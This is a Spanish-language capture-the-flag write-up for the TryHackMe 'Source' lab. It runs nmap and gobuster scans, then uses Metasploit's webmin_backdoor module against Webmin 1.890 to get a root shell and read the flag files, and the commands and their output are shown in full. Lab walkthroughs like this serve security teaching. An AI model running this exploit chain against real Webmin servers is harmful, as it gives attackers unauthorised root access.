

# Source - TryHackMe

## Reconocimiento

Vamos a realizar un escaneo de puertos con nmap para identificar los servicios que están corriendo en la máquina objetivo.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n 10.129.144.63 -Pn -oG allPorts

PORT      STATE SERVICE          REASON
22/tcp    open  ssh              syn-ack ttl 62
10000/tcp open  snet-sensor-mgmt syn-ack ttl 62
```

Veamos las versiones de los servicios que están corriendo en los puertos abiertos.

```bash
nmap -sCV -p22,10000 10.129.144.63

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos que el puerto 22 está corriendo un servicio SSH y el puerto 10000 está corriendo un servicio Webmin.

Al entrar en https://10.129.144.63:10000/ vemos un login de webmin.



```bash
gobuster dir -u https://10.129.144.63:10000 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 200 --exclude-length 3727 -x txt,js,php,xml,bak --add-slash -k

# Añadimos parámetro -k para ignorar errores de certificado SSL.
```

Nos acaba de bloquear el acceso a la web.

Vamos a usar metasploit para ver si podemos encontrar alguna vulnerabilidad en el servicio webmin.

```bash
use exploit/linux/http/webmin_backdoor
set lhost 192.168.154.96
set rhosts 10.129.170.67
set SSL true
check
[+] 10.129.170.67:10000 - The target is vulnerable. Exploitable: version 1.890 is vulnerable
exploit

id
uid=0(root) gid=0(root) groups=0(root)
```

Hagamos las búsquedas pertinentes:

```bash
ls ../../../home
dark
ls ../../../home/dark
user.txt
webmin_1.890_all.deb
cat ../../../home/dark/user.txt
```

Encontramos la flag de usuario en el directorio home del usuario dark.

```bash
ls ../../../root
root.txt
cat ../../../root/root.txt
```

También encontramos la flag de root en el directorio home del usuario root.

lA verdad que esta máquina es muy sencilla, ya que solo hay que explotar la vulnerabilidad de webmin para conseguir acceso como root y obtener las flags.